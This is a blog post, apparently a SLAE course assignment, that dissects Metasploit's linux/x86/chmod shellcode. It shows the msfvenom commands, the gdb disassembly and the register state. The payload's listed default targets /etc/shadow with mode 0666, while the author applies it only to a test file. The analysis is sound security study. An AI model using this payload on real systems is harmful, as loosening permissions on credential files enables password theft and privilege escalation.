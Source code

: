 ```yaml
---
layout: post
title:  "SLAE Assignment 5.3 - Msfvenom linux/x86/chmod shellcode Analysis"
date:   2017-04-26
categories: certification
excerpt_separator: <!--more-->
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 5.3:  
  
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
<!--more-->
  
Hello everybody,  
  
Here we are for the last shellcode of the msfvenom serie. We will use this time the **linux/x86/chmod** shellcode and will analyse it thanks to GDB:  
```bash
# msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
       Module: payload/linux/x86/chmod
       Platform: Linux
       Arch: x86
       Needs Admin: No
       Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current          Setting     Required  Description
----  ---------------  --------    -----------
FILE  /etc/shadow      yes         Filename to chmod
MODE  0666             yes         File mode (octal)

Description:
  Runs chmod on specified file with specified mode
...
```
  
Let's generate the ELF:  
```bash
# msfvenom -p linux/x86/chmod FILE=/tmp/slae.txt -f elf -o chmod_slae
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 38 bytes
Final size of elf file: 122 bytes
Saved as: chmod_slae
# ls -l /tmp/slae.txt 
-r--r--r-- 1 root root 0 avril 22 04:54 /tmp/slae.txt
# chmod +x ./chmod_slae && ./chmod_slae
# ls -l /tmp/slae.txt 
-rw-rw-rw- 1 root root 0 avril 22 04:54 /tmp/slae.txt
```
  
Perfect we see that our file **/tmp/slae.txt** has now the octal right **666** standing for **rw-rw-rw-**.  Let's have a look in gdb:  
```
# readelf -h ./chmod_slae
...
Adresse du point d'entrée:    0x8048054 
...
# gdb -q ./chmod_slae 
Reading symbols from ./chmod_slae...(no debugging symbols found)...done.
gdb-peda$ br *0x8048054
Breakpoint 1 at 0x8048054
gdb-peda$ run
gdb-peda$ disas $eip,+38
Dump of assembler code from 0x8048054 to 0x804807a:
=> 0x08048054:	cdq    
   0x08048055:	push   0xf
   0x08048057:	pop    eax
   0x08048058:	push   edx
   0x08048059:	call   0x804806c
   0x0804805e:	das    
   0x0804805f:	je     0x80480ce
   0x08048061:	jo     0x8048092
   0x08048063:	jae    0x80480d1
   0x08048065:	popa   
   0x08048066:	gs cs je 0x80480e2
   0x0804806a:	je     0x804806c
   0x0804806c:	pop    ebx
   0x0804806d:	push   0x1b6
   0x08048072:	pop    ecx
   0x08048073:	int    0x80
   0x08048075:	push   0x1
   0x08048077:	pop    eax
   0x08048078:	int    0x80
End of assembler dump.
```

Let's add some breakpoints on interesting opcodes:  
```bash
gdb-peda$ br *0x0804806c
Breakpoint 2 at 0x804806c
gdb-peda$ br *0x08048073
Breakpoint 3 at 0x8048073
gdb-peda$ br *0x08048078
Breakpoint 4 at 0x8048078
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x0 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff2c8 --> 0x804805e ("/tmp/slae.txt")
EIP: 0x804806c --> 0x1b6685b
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048065:	popa   
   0x8048066:	gs cs je 0x80480e2
   0x804806a:	je     0x804806c
=> 0x804806c:	pop    ebx
   0x804806d:	push   0x1b6
   0x8048072:	pop    ecx
   0x8048073:	int    0x80
   0x8048075:	push   0x1
[------------------------------------stack-------------------------------------]
0000| 0xbffff2c8 --> 0x804805e ("/tmp/slae.txt")
0004| 0xbffff2cc --> 0x0 
0008| 0xbffff2d0 --> 0x1 
0012| 0xbffff2d4 --> 0xbffff478 ("/root/Documents/pentest/certs/slae/exam/assignment5.3/chmod_slae")
0016| 0xbffff2d8 --> 0x0 
0020| 0xbffff2dc --> 0xbffff4b9 ("XDG_VTNR=2")
0024| 0xbffff2e0 --> 0xbffff4c4 ("XDG_SESSION_ID=2")
0028| 0xbffff2e4 --> 0xbffff4d5 ("SSH_AGENT_PID=1067")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```  
  
Notice that we are using [gdb-peda](https://github.com/longld/peda).  Thanks to the call technique the next instruction ``` pop ebx ``` will pop the address of the string */tmp/slae* in the EBX register.  
  
So we will have:  
```bash
EAX: 0xf 
EBX: 0x804805e (/tmp/slae.txt) 
```  
  
Finally if we stop at the address **0x8048073** just before our syscall:  
```bash
EAX: 0xf 
EBX: 0x804805e ("/tmp/slae.txt")
ECX: 0x1b6 
```
  
We will call ``` int chmod(const char *pathname, mode_t mode); ```. The second argument **0x1b6** is **666** in octal:  
```bash
# printf "%o\n" 0x1b6
666
```  
  
Let's go to the following breakpoint:  
```bash
EAX: 0x1 
EBX: 0x804805e (/tmp/slae.txt) 
```
  
We will call ``` void _exit(int status); ```, the exit status is not important in a shellcode execution context, so we won't add an opcode to set EBX.  

Finally, our shellcode will change the permissions of our file:  
```bash
gdb-peda$ n
[Inferior 1 (process 24785) exited with code 0136]
Warning: not running or target is remote
```
  
So we just finished our msfvenom shellcodes serie. Soon we will deal with polymorphic shellcodes and crypters.  
Hope you enjoyed this post.    
  
[Phackt](https://twitter.com/phackt_ul)